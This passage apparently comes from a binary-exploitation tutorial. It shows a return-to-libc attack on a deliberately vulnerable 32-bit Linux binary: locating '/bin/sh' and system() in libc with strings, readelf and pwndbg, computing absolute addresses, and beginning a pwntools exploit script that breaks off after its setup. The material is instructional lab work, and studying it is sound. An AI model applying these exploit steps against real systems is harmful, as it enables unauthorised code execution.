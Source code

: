     strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "bin/sh"
        15fa0f /bin/sh                    # <- this is our offset


We can assembly the shell location now via `base` + `offset`. 
It yields: `0xf7df7000` + `15fa0f` = `0xf7f56a0f`

#### find system

    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"
        246: 00116670    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
        628: 0003b060    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
        1461: 0003b060    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0        # this is our gem


We can assembly the shell location now via `base` + `offset` .
This yields: `0xf7df7000` + `0x3b060` = `0xf7e32060`



From here on we can assembly out final exploit.
We got everything we need.
Or we can do the following

#### The lazy non ASLR way :)

Print system position:

    pwndbg> print system
    $1 = {<text variable, no debug info>} 0xf7e32060 <system>

Search for a shell candidate:

    pwndbg> find &system, +99999999,  "/bin/sh"
    0xf7f56a0f
    warning: Unable to access 16000 bytes of target memory at 0xf7fb8733, halting search.
    1 pattern found.
    pwndbg>


This directly results in addresses we can use to craft our exploit


#### Final exploit   

Again a quick'n'dirty pwntools script:

```python
#!/usr/bin/env python

import argparse
import sys
from pwn import *
from pwnlib import *

context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln_with_nx')
libc = ELF('/lib/i386-linux-gnu/libc-2.24.so')


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    executable = './binary/vuln_with_nx'

```